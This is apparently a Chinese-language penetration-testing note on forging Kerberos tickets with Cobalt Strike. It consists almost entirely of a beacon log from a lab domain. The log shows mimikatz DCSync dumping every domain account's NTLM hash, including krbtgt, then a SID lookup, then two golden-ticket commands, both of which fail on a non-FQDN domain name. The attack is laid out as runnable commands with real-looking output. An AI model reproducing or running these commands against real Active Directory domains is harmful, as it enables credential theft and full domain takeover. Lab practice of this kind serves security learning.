 ****

#### CS伪造基本流程

```cmd
[11/15 14:34:45] [+] ----------------------------------------导出域内所有用户hash------------------------------------------------------------
[11/15 14:34:45] [*] Tasked beacon to run mimikatz's lsadump::dcsync /domain:laffrex.com /all /csv command
[11/15 14:34:46] [+] host called home, sent: 788081 bytes
[11/15 14:34:48] [+] received output:
[DC] 'laffrex.com' will be the domain
[DC] 'DC.laffrex.com' will be the DC server
[DC] Exporting domain 'laffrex.com'
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
500	Administrator	81b1f71308ed62abfbc2b4b8c85d75d1	512
502	krbtgt	b036bd80f7d70fc72b920c1eeb8acc55	514
1121	DESKTOP-K196DPF$	7c77f78943e77ee5f29c7baa2ff85834	4096
1122	Winserver2008	01a6d72cb7de962186ffe968f82461b5	512
1124	Win11	e6f2734cf5c617cf665ebfe050d83651	512
1123	WINSERVER2008-$	6cdae6729454f01a9c39b1e56f979e33	4096
1125	Win10	01a6d72cb7de962186ffe968f82461b5	512
1126	WINDOWS10$	6f99b07550473832ac81dd6d83f34e4e	4096
1018	DC$	bc8144babd6a3fa15f0e4a20cb31b77b	532480


[11/15 14:38:32] [+] -------------------------------------------------查询用户SID和域SID-------------------------------------------------------------
[11/15 14:38:32] [+] 如用户的SID是：S-1-5-21-2189311154-2766837956-1982445477-520 则域SID则是去掉最后的520：S-1-5-21-2189311154-2766837956-1982445477
[11/15 14:38:32] [*] Tasked beacon to run: whoami /user
[11/15 14:38:32] [+] host called home, sent: 43 bytes
[11/15 14:38:32] [+] received output:

用户信息
----------------

用户名                 SID                                          
====================== =============================================
laffrex0\administrator S-1-5-21-1027567978-1567870151-2422577431-500

[11/15 14:39:19] beacon> mimikatz kerberos::golden /user:administrator /domain:laffrex0 /sid:S-1-5-21-1027567978-1567870151-2422577431-500  /krbtgt:b036bd80f7d70fc72b920c1eeb8acc55 /endin:480 /renewmax:10080 /ptt
[11/15 14:39:20] [*] Tasked beacon to run mimikatz's kerberos::golden /user:administrator /domain:laffrex0 /sid:S-1-5-21-1027567978-1567870151-2422577431-500  /krbtgt:b036bd80f7d70fc72b920c1eeb8acc55 /endin:480 /renewmax:10080 /ptt command
[11/15 14:39:20] [+] host called home, sent: 297586 bytes
[11/15 14:39:21] [+] received output:
ERROR kuhl_m_kerberos_golden ; Domain name does not look like a FQDN

[11/15 14:41:05] beacon> mimikatz kerberos::golden /user:administrator /domain:laffrex0 /sid:S-1-5-21-1027567978-1567870151-2422577431 /krbtgt:b036bd80f7d70fc72b920c1eeb8acc55 /endin:480 /renewmax:10080 /ptt
[11/15 14:41:05] [*] Tasked beacon to run mimikatz's kerberos::golden /user:administrator /domain:laffrex0 /sid:S-1-5-21-1027567978-1567870151-2422577431 /krbtgt:b036bd80f7d70fc72b920c1eeb8acc55 /endin:480 /renewmax:10080 /ptt command
[11/15 14:41:05] [+] host called home, sent: 297586 bytes
[11/15 14:41:06] [+] received output:
ERROR kuhl_m_kerberos_golden ; Domain name does not look like a FQDN

```